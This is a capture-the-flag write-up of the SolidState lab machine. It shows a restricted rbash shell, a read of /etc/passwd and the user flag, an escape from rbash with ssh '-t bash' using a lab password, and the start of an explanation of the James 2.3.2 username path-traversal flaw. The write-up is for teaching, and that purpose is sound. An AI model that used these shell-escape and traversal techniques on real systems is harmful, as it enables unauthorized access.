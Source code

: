 
As the email suggested, the shell is limited:

    
    
    mindy@solidstate:~$ whoami
    -rbash: whoami: command not found
    mindy@solidstate:~$ id
    -rbash: id: command not found
    

`/etc/passwd` shows that mindy’s shell is `rbash`:

    
    
    mindy@solidstate:~$ cat /etc/passwd
    ...[snip]...
    mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
    

Even in `rbash`, I can grab `user.txt`:

    
    
    mindy@solidstate:~$ ls
    bin  user.txt
    mindy@solidstate:~$ cat user.txt 
    914d0a4e************************
    

## rbash Escape

### Quick Method

The first thing I try when facing SSH into `rbash` is adding `-t bash` to the
SSH connection command. This will run `bash` on connect instead of the
assigned shell. It works here (though it does produce a busted prompt), and I
an now run `id` and `cd`:

    
    
    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd /
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    

### Intended Path

#### Exploit Theory

I believe the intended path was to take advantage of the James 2.3.2 exploit,
which I’ll show now. First, I’ll take a look at the exploit from
`searchsploit`.

When a user is created in James, a folder is created for that user based on
their username, and when email comes in, it is stored in that folder. The
issue is that no bounds checking is done on that user name, so if the user is
named `../../../../../../../0xdf`, then it will create that folder at the root
level and drop files in it with the contents of received emails.
